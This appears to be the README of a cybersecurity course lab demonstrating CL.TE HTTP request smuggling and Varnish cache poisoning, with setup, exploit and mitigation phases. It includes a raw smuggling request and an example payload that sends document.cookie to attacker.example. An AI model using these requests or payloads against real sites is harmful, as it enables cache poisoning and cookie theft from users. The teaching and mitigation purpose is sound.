

# HRS-Desynchronization

[](LICENSE)
[](docker-compose.yml)
[](exploit/attack.py)

> **Cybersecurity Course Project** – Professional lab demonstrating
> **Web Cache Poisoning via CL.TE HTTP Request Smuggling** in a three-tier
> architecture (Nginx → Varnish → Gunicorn/Flask).

---

## Table of Contents

- [Architecture Overview](#architecture-overview)
- [How It Works](#how-it-works)
- [Repository Layout](#repository-layout)
- [Phase 1 – Setup](#phase-1--setup)
- [Phase 2 – Exploit](#phase-2--exploit-web-cache-poisoning-via-clte)
- [Phase 3 – Mitigation](#phase-3--mitigation)
- [Teardown](#teardown)
- [Key Concepts](#key-concepts)
- [References & Further Reading](#references--further-reading)
- [Author](#author)
- [Disclaimer](#disclaimer)
- [License](#license)

---

## Architecture Overview

```
  ┌─────────────┐   port 80    ┌───────────────────┐  :6081  ┌──────────────────┐  :8000  ┌──────────────────────┐
  │  Attacker   │──keep-alive─▶│  Nginx            │────────▶│  Varnish         │────────▶│  Gunicorn / Flask    │
  │  attack.py  │              │  (frontend-proxy) │         │  (cache-layer)   │         │  (backend-origin)    │
  └─────────────┘              │  Trusts CL        │         │  Caches .js/.css │         │  Trusts TE:chunked   │
                               │  Forwards TE      │         │  1-hour TTL      │         │  /  /js/app.js       │
                               └───────────────────┘         └──────────────────┘         │  /reflect?q=         │
                                                                                           │  /admin              │
                                                                                           └──────────────────────┘
```

### CL.TE Desynchronization – Buffer Poisoning Sequence



### Header Trust Matrix

| Layer | Trusts | Ignores | Effect |
|-------|--------|---------|--------|
| **Nginx** (frontend-proxy) | `Content-Length` | `Transfer-Encoding` | Forwards entire body including smuggled suffix |
| **Varnish** (cache-layer) | Forwards headers as-is | Does not strip TE | Passes the TE header to Gunicorn |
| **Gunicorn** (backend-origin) | `Transfer-Encoding: chunked` | `Content-Length` | Stops at `0\r\n\r\n`, leaves prefix in socket buffer |

---

## How It Works

### The Core Conflict: Content-Length vs. Transfer-Encoding

HTTP/1.1 provides two mechanisms to indicate the length of a request body:

| Mechanism | How It Works |
|-----------|-------------|
| **Content-Length (CL)** | A single integer: "the body is exactly *N* bytes long." |
| **Transfer-Encoding: chunked (TE)** | The body is sent in pieces. Each chunk begins with a hex size; a chunk of size `0` terminates the message. |

When **both** headers are present in the same request, RFC 7230 §3.3.3 says a server **must** ignore `Content-Length` and use `Transfer-Encoding`. However, not all proxies and servers agree – and that disagreement is the attack.

### Phase 1 – Smuggling (Injection)

The attacker crafts a single `POST` request containing **both** headers:

```
POST /js/app.js HTTP/1.1
Host: target.com
Content-Length: 108         ← Nginx counts 108 bytes of body
Transfer-Encoding: chunked  ← Gunicorn follows this instead

6\r\n
CLTE=1\r\n
0\r\n
\r\n                        ← Gunicorn stops HERE (end of chunked body)
GET /reflect?q=<script>alert('XSS')</script> HTTP/1.1\r\n
Host: target.com\r\n
Content-Length: 500\r\n
X-Ignore:                   ← smuggled prefix left in socket buffer
```

- **Nginx** trusts `Content-Length` → forwards all 108 bytes to Varnish/Gunicorn.
- **Gunicorn** trusts `Transfer-Encoding` → reads only up to `0\r\n\r\n` and returns `200 OK`.
- The remaining bytes (`GET /reflect?q=…`) are **left in the TCP socket buffer**.

### Phase 2 – Trigger (Desynchronization)

The attacker immediately sends a normal `GET /js/app.js` on the **same TCP connection**. Varnish forwards it to Gunicorn on the same keep-alive socket.

Gunicorn reads from its socket buffer and sees:

```
GET /reflect?q=<script>alert('XSS')</script> HTTP/1.1   ← smuggled bytes
Host: target.com
Content-Length: 500
X-Ignore: GET /js/app.js HTTP/1.1                        ← victim's request absorbed
Host: target.com
...
```

Gunicorn processes `GET /reflect?q=…` and returns the XSS payload. Varnish **caches this response under the `/js/app.js` cache key**.

### Phase 3 – Impact (Cache Poisoning)

Every subsequent user requesting `/js/app.js` receives the attacker's cached payload directly from Varnish (`X-Cache: HIT`). The poisoned content is served until the cache TTL expires (1 hour in this lab).

---

## Repository Layout

```
HRS-Desynchronization/
├── docker-compose.yml          # Three-tier service definitions
├── nginx/
│   ├── Dockerfile              # nginx:1.25-alpine
│   └── nginx.conf              # Desync-enabling (lenient) proxy config
├── varnish/
│   ├── Dockerfile              # alpine:3.19 + varnish package
│   └── default.vcl             # Caches .js/.css for 1 h; passes TE to origin
├── backend/
│   ├── Dockerfile              # python:3.12-alpine
│   ├── requirements.txt        # Flask + Gunicorn
│   ├── app.py                  # Routes: / /js/app.js /reflect /admin
│   └── wsgi.py                 # Gunicorn sync worker + keepalive config
├── exploit/
│   ├── attack.py               # CL.TE + cache-poisoning exploit (raw sockets + h2)
│   └── requirements.txt        # h2>=4.0
├── mitigation/
│   ├── nginx.conf              # Hardened: reject dual-length headers, strip TE
│   └── default.vcl             # Hardened: strip TE, Connection:close to origin
└── README.md
```

---

## Phase 1 – Setup

### Prerequisites

- Docker ≥ 24 and Docker Compose v2
- Python ≥ 3.10 with `pip` (for the exploit script)

### Start the stack

```bash
# Build images and start all three containers in the background
docker compose up --build -d

# Verify all three containers are running
docker compose ps
```

Expected output:

```
NAME                              STATUS          PORTS
hrs-...-frontend-proxy-1          Up              0.0.0.0:80->80/tcp
hrs-...-cache-layer-1             Up              6081/tcp
hrs-...-backend-origin-1          Up              8000/tcp
```

### Confirm normal operation

```bash
# Public homepage
curl -i http://localhost/

# Static JavaScript file (first request: cache MISS)
curl -i http://localhost/js/app.js

# Reflection endpoint
curl -i "http://localhost/reflect?q=hello"
```

---

## Phase 2 – Exploit: Web Cache Poisoning via CL.TE

### Install exploit dependencies

```bash
pip install -r exploit/requirements.txt
```

### Run the attack

```bash
python exploit/attack.py --host localhost --port 80
```

With a custom payload:

```bash
python exploit/attack.py \
  --host localhost \
  --port 80 \
  --payload '<script>fetch("https://attacker.example/steal?c="+document.cookie)</script>'
```

### What happens step-by-step

1. **Phase 0 (HTTP/2 probe)** – The exploit uses the `h2` library to check
   whether the frontend also exposes an H2.CL smuggling surface.

2. **Phase 1 (CL.TE attack)** – A single `POST /js/app.js` is sent with both
   `Content-Length` and `Transfer-Encoding: chunked`.
   - Nginx trusts `Content-Length` and forwards every byte to Varnish.
   - Varnish passes the request to Gunicorn.
   - Gunicorn trusts `Transfer-Encoding`, stops at `0\r\n\r\n`, leaving
     `GET /reflect?q=<payload>` in the keep-alive socket buffer.

3. **Phase 2 (trigger)** – A `GET /js/app.js` is sent on the **same TCP
   connection**.  Varnish fetches from origin (cache MISS) on the same
   keep-alive socket; Gunicorn prepends the smuggled prefix and returns the
   `/reflect` response.  **Varnish caches this response under `/js/app.js`**.

4. **Phase 3 (verify)** – A fresh connection requests `/js/app.js`.  Varnish
   returns the poisoned cached response (`X-Cache: HIT`).

### Sample successful output

```
[*] Target  : localhost:80
[*] Payload : "<script>alert('Cache Poisoned!')</script>"

[*] Phase 0 – Probing for HTTP/2 support (h2 library) …
[*]  Server does not advertise HTTP/2 (or probe timed out).

[*] Phase 1 – Sending CL.TE smuggling request …
...

[*] Phase 2 – Sending trigger GET /js/app.js (same connection) …
...

[*] Phase 3 – Verifying cache poisoning on a NEW connection …
[*] Cached response for /js/app.js:
HTTP/1.1 200 OK
X-Cache: HIT
...
<html><body><script>alert('Cache Poisoned!')</script></body></html>

[+] SUCCESS – /js/app.js cache is poisoned with the injected payload!
    All users requesting /js/app.js will receive the attacker's content.
```

---

## Phase 3 – Mitigation

Apply the hardened configuration files from the `mitigation/` directory:

```bash
# Replace the vulnerable Nginx config
cp mitigation/nginx.conf nginx/nginx.conf

# Replace the vulnerable Varnish VCL
cp mitigation/default.vcl varnish/default.vcl

# Rebuild and restart
docker compose up --build -d
```

### Mitigation summary

| Layer | Vulnerability | Mitigation |
|-------|--------------|------------|
| **Nginx** | Forwards both `Content-Length` and `Transfer-Encoding` | Reject requests with dual-length headers (HTTP 400); strip `Transfer-Encoding` before proxying; enable `proxy_request_buffering on` |
| **Varnish** | Passes `Transfer-Encoding` to origin; reuses keep-alive sockets | Strip `Transfer-Encoding` in `vcl_backend_fetch`; set `Connection: close` on origin fetches; reject dual-length requests with a 400 synth |
| **Gunicorn** | Trusts `Transfer-Encoding` over `Content-Length` | Addressed by removing TE from upstream headers (Nginx/Varnish mitigations) |

### Additional hardening recommendations

| Measure | Effect |
|---------|--------|
| Enable HTTP/2 (`listen 443 ssl http2`) | Eliminates CL.TE/TE.CL ambiguity at the protocol level |
| WAF: normalise TE headers | Strip/reject `Transfer-Encoding` variants before they reach proxies |
| Single authoritative parser (e.g. Envoy) | Buffers entire requests before forwarding, preventing partial-write races |
| Gunicorn `--forwarded-allow-ips` | Prevents forged `X-Forwarded-*` header injection |
| Varnish `ban` on poisoned keys | Emergency response: purge known-poisoned cache entries immediately |

---

## Teardown

```bash
docker compose down
```

---

## Key Concepts

| Concept | Why It Matters |
|---------|---------------|
| **TCP Connection Reuse** (keep-alive) | The smuggled bytes survive in the socket buffer *only* if the connection stays open between requests. `Connection: close` discards them. |
| **No Header Normalization** | Modern proxies "clean" headers by default. The vulnerable Nginx config deliberately passes `Transfer-Encoding` through without stripping – a real-world misconfiguration. |
| **Byte-level Precision** | If `Content-Length` is off by even one byte, the smuggled request is malformed and Gunicorn returns `400 Bad Request`. The exploit calculates CL dynamically. |
| **Cache Key Mismatch** | Varnish hashes the *URL from the incoming request* (`/js/app.js`) but stores the *response from the backend* (which processed `/reflect?q=…` due to the desync). |
| **Chunked Transfer-Encoding** | The `0\r\n\r\n` terminator is the "wall" where Gunicorn stops reading. Everything after it is left for the next `recv()` call. |

---

## References & Further Reading

| Resource | Link |
|----------|------|
| RFC 7230 §3.3.3 – Message Body Length | [tools.ietf.org/html/rfc7230#section-3.3.3](https://tools.ietf.org/html/rfc7230#section-3.3.3) |
| PortSwigger – HTTP Request Smuggling | [portswigger.net/web-security/request-smuggling](https://portswigger.net/web-security/request-smuggling) |
| James Kettle – "HTTP Desync Attacks" (DEF CON 27) | [youtube.com/watch?v=w-eJM2Pc0KI](https://www.youtube.com/watch?v=w-eJM2Pc0KI) |
| Albinowax – "HTTP/2: The Sequel is Always Worse" | [portswigger.net/research/http2](https://portswigger.net/research/http2) |
| OWASP – HTTP Request Smuggling | [owasp.org/www-community/attacks/HTTP_Request_Smuggling](https://owasp.org/www-community/attacks/HTTP_Request_Smuggling) |
| Varnish Cache Documentation | [varnish-cache.org/docs](https://varnish-cache.org/docs/) |
| Nginx Proxy Module Reference | [nginx.org/en/docs/http/ngx_http_proxy_module.html](https://nginx.org/en/docs/http/ngx_http_proxy_module.html) |

---

## Author

**Laksh Mendpara** – Cybersecurity Course Project

---

## Disclaimer

> **⚠️ Educational Use Only**
>
> This project is created **solely for educational purposes** as part of a
> cybersecurity course.  Do **not** use these techniques against systems you do
> not own or have explicit written permission to test.
>
> **Academic Integrity:** If you are a student, refer to your institution's
> academic integrity policy before using this material.  Submitting this work
> as your own without attribution may constitute a violation of your
> institution's honour code.

---

## License

This project is licensed under the **MIT License** – see the [LICENSE](LICENSE) file for details.
